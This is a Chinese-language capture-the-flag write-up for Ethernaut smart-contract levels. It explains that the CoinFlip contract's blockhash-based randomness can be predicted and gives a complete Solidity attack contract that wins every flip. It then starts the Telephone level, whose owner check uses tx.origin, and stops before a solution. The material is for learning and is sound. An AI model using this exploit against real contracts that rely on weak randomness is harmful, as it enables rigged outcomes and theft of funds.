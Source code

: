 * 生成新实例得到实例地址：0x4B396A00D471354DDd0690C65c3701223677063F

* 解题关键：

  uint256 blockValue = uint256(blockhash(block.number - 1));

  利用 block.blockhash(block.number-1) 来生成随机数，这是可预测的，我们可以部署一个恶意的新合约，先进行随机数的预测再竞猜

* 攻击合约代码：

  ```
  // SPDX-License-Identifier: MIT
  pragma solidity ^0.8.0;
  import "./CoinFlip.sol";
  
  contract Attack{
      CoinFlip private coinFlip;
      uint256 FACOTR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  
      constructor(address _name){
          coinFlip = CoinFlip(_name);
      }
      function attack() external{
          bool guess = guess();
          require(coinFlip.flip(guess),"guess false");
  
      }
      
      
      function guess() private view returns(bool){
          uint256 blockValue = uint256(blockhash(block.number - 1));
          uint256 coinFlip = blockValue/FACOTR;
          bool side =  coinFlip == 1? true : false;
          return side;
      }
      
  }
  ```

* 执行合约10次即可完成10次attack（）方法，记住一个块上只能attack一次，执行完后查询consecutiveWins



## telephone

* 要求：成为owner

* 合约代码

  ```
  pragma solidity ^0.6.0;
  
  contract Telephone {
  
    address public owner;
  
    constructor() public {
      owner = msg.sender;
    }
  
    function changeOwner(address _owner) public {
      if (tx.origin != msg.sender) {
        owner = _owner;
      }
    }
  }
  
  ```